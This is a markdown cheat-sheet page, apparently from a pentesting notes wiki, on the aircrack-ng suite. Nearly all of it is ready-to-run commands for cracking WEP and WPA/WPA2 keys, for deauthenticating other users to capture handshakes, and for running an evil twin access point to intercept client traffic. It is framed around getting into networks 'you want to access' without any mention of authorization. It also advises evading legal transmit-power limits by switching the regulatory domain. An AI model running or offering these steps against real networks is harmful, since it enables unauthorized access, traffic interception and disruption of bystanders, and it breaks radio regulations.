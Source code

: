 # Aircrack-ng

TODO: Fill this information of covering aircrack-ng suite tools usage

## Help Menu

## Usage

```
# ip link set <interface> down
```

```
# ip link set <interface> up
```

### WEP

WiFi in Monitor mode

```
# airmon-ng start wlan0
```

Search for wireless

```
# airodump-ng mon0
```

Capture or inject

```
# airodump-ng --bssid <bssid> -c <channel> -w WEPcrack mon0
```

Inject ARP to capture IVs

```
# aireplay-ng -e -b <bssid> -h <mac> mon0
```

Crack (needs several thousand IVs)

```
# aircrack-ng WEPcrack.cap
```

### WPA/WPA2

Start airmon-ng

```
# airmon-ng start wlan0
```

Run airodump

```
# airodump-ng -i mon0
```

Find the network you want to access then wait for `WPA handshake: ##:##:##:##:##:##`

```
# airodump-ng --bssid <bssid> -c 11 -w cowpatty.cap mon0
```

Kick someone else off

```
# aireplay-ng -0 100 -a <bssid> mon0
```

Dictionary or other, crack the password

```
# aircrack-ng WPAcrack.cap -w <wordlist>
```

Pipe STDIN to aircrack-ng for password cracking

```
$ crunch <min-len> <max-len> -t <placeholder_characters> | aircrack-ng -w - file.cap -e <ESSID>
```

### Evil Twin

Our first task will be to creating an evil twin access point. Many new hackers are anxious to crack Wi-Fi passwords to gain some free bandwidth (don't worry, we'll get to that), but there are so many other Wi-Fi hacks that are far more powerful and put so much more at risk than a bit of bandwidth.

What's an Evil Twin AP?
The evil twin AP is an access point that looks and acts just like a legitimate AP (using the same SSID) and entices the end-user to connect to our access point. Our aircrack-ng suite has a tool, airbase-ng, that can be used to convert our wireless adapter into an access point. This is a powerful client-side hack that will enable us to see all of the traffic from the client and conduct a man-in-the middle attack.

Many corporate offices, hotels, coffee shops, etc. employ this type of security.

Start airmon

```
iwconfig
airmon-ng start wlan0
```

Start airdump then wait for ssid to show 

```
airodump-ng mon0
```

Create new AP with same ssid and mac

```
airbase-ng -a <bssid> --essid <ssid> -c <channel> mon0
```

Deauth your target

```
aireplay-ng --deauth 0 -a <bssid>
```

Run your AP at max power (27 is max 'legal' power)

```
iwconfig wlan0 txpower 27 
```

Bypass restrictions is by setting to another domain/country then wait for connection

```
iw reg set BO

iwconfig wlan0 txpower 30
```

---
## References

### Backlinks

- [[Crunch|Crunch]]

### Hacktricks

- [Hacktricks: Pentesting Wi-Fi](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/pentesting-wifi/index.html)